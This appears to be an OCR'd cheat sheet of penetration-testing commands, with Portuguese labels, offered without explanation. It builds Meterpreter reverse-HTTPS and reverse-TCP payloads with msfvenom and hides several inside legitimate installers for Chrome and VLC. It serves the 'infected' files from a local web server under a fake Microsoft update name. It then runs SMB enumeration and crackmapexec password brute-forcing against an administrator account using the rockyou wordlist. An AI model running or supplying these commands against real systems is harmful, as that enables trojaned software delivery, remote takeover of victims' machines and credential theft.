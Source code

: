 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

Get-NetAdapter -Physical | Where-Object {$_.Status -eq "Up"}



nmap -p 445 --script smb-os-discovery,smb-enum-shares 192.168.1.84

smbclient -L //192.168.1.84/ -U convidado

crackmapexec smb 192.168.1.84 -u administrador -p 123456

crackmapexec smb 192.168.1.84 -u convidado -p ""

crackmapexec smb 192.168.1.84 -u root -P /usr/share/wordlists/rockyou.txt






